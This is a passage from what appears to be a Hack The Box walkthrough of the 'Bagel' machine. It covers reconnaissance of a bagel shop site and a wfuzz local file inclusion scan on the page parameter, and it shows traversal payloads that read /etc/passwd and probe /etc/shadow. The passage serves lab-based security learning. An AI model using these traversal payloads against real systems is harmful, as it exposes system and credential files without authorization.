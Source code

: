 ```
sudo vim /etc/hosts

[...]

<ip address provided by HTB> bagel.htb
```

Now that we can navigate to `bagel.htb:8000` (and redirected to `bagel.htb:8000/?page=index.html`), we can notice a web-page for a fictional bagel shop:

![bagel](https://user-images.githubusercontent.com/44783555/220196622-49437fc4-60fd-4113-be30-398a0d5bcee7.png)

Unfortunately, the webpage itself (including its source code) does not seem to contain any juicy information. 

Moving onto the `bagel.htb:8000/orders` endpoint, we can notice the following output:

```
order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels] order #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels] order #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels] 
```

Again, apart from telling us that an api endpoint is probably available at `/orders`, the information displayed is not particularly useful for the purposes of <i>hacking the box</i>.

### Local File Inclusion (LFI)

Given that the `bagel.htb:8000/?page=` parameter seemed suspicious from the very beginning, let's attempt to perform a local file inclusion (LFI) via `wfuzz`. An LFI wordlists from the `SecLists` package is leveraged, along with the `--hl 0` parameter which will filter out queries that don't return interesting payloads.

```
└─$ wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt --hl 0 http://bagel.htb:8000/?page=FUZZ 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bagel.htb:8000/?page=FUZZ
Total requests: 9513

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000007:   200        34 L     72 W       1823 Ch     "../../../../../../etc/passwd"                                                                                                                                             
000000015:   200        34 L     72 W       1823 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                                                                     
000000044:   500        5 L      37 W       265 Ch      "../../../../../etc/shadow"                                                                                                                                                
000000046:   500        5 L      37 W       265 Ch      "../../../../../../../etc/shadow"                                                                                                                                          
000000045:   500        5 L      37 W       265 Ch      "../../../../../../etc/shadow"                                                                                                                                             
```